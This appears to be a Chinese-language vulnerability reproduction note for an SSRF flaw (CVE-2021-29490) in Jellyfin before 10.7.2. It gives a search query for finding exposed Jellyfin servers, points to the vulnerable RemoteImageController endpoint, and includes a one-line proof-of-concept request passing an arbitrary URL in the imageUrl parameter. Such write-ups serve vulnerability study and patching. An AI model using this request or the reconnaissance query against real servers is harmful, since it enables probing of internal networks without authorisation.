 # Jellyfin RemoteImageController.cs SSRF漏洞 CVE-2021-29490

## 漏洞描述

Jellyfin RemoteImageController.cs 文件中存在SSRF漏洞，通过构造特殊的请求，探测内网信息

## 漏洞影响

<a-checkbox checked>Jellyfin < 10.7.2</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Jellyfin"</a-checkbox></br>

## 漏洞复现

在官方的更新文件中，查找到修改的文件

![img](../../../.vuepress/public/img/1639026469087-918a2c7f-b015-4a28-a885-00f9a7267d75.png)

官方删除了某个方法

```go
function getDisplayUrl(url, apiClient) {
        return apiClient.getUrl('Images/Remote', { imageUrl: url });
    }
```

下载漏洞版本源码，查找该接口对应的文件 

**Jellyfin.Api/Controllers/RemoteImageController.cs**

![img](../../../.vuepress/public/img/1639026630565-84275017-5bbf-4835-8d2f-c7eaf1aff942.png)其中接收的参数为 imageUrl ，后续的代码片段存在SSRF漏洞	

![img](../../../.vuepress/public/img/1639026730098-5b7473f3-32b0-47ee-bb04-6f69c13202a0.png)

构造请求POC

```go
/Images/Remote?imageUrl=http://www.baidu.com
```

![img](../../../.vuepress/public/img/1639026826430-ef5e3b8a-d7cb-4957-a71d-b9af01c57c1b.png)